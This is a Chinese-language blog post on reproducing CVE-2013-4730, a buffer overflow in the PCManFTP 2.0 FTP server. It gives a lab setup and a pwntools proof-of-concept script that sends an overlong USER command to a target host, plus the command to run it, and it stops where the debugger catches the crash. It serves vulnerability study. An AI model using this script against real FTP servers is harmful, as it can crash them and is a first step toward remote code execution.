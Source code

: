 ```yaml
---
title: PCManFTP2.0 (CVE-2013-4730)漏洞分析
date: 2017-12-05 20:20:00
tags: []
categories: 二进制漏洞分析
---
```

# PCManFTP2.0 (CVE-2013-4730)漏洞分析

## 简介
pcManFTP是一款FTP服务器软件，它的2.0版本在接受命令时，
如果命令后的字符串过长会发生溢出，该溢出漏洞可导致执行任意机器指令。	
***
## 漏洞分析环境
	OS:					Microsoft Windows 10 64bit 专业版
	Software:			PCManFTP 2.0
	winDbg:				6.12.2.633
	IDAPro:				6.8 绿色版
	python:				python 2.7
***	
## 漏洞分析
> #####参考了k0shl大佬的视频[https://www.ichunqiu.com/qad/course/56129](https://www.ichunqiu.com/qad/course/56129)

编写了如下的python脚本用作poc，文件名：poc.py
```python
#!/usr/bin/env python 
# coding=utf-8        
# fileName: poc.py
# usage: python poc.py ip port payloadNum

from pwn import *     
import sys            
                        
RHOST = sys.argv[1]   
RPORT = int(sys.argv[2])
payload = cyclic(int(sys.argv[3])) #用于快速定位漏洞触发位置
                       
r = remote(RHOST,RPORT)
print r.recv(1024)
r.send('USER '+payload+'\r\n')                                                      
print r.recv(1024)    
r.close()  
```
然后打开winDbg，这里使用了打开的方法调试PCManFTP2.exe,直接输入g命令执行。
然后执行如下命令运行poc.py
`
python poc.py 192.168.0.103 21 2048
`
这时由于产生了异常winDbg被断下
